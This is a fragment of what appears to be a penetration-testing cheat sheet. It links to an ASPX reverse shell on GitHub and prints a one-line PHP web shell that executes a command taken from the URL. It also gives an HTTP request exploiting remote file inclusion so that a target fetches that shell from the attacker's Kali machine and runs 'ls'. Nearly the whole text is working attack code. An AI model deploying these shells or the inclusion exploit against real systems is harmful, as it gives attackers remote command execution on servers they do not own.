 ### aspx

```bash
https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx
```



### Web rfi

```bash
# cat shell.php
<?=`$_GET[0]`?>

http "http://localhost/section.php?page=http://<kali ip>/shell.php&0=ls -ls"
```
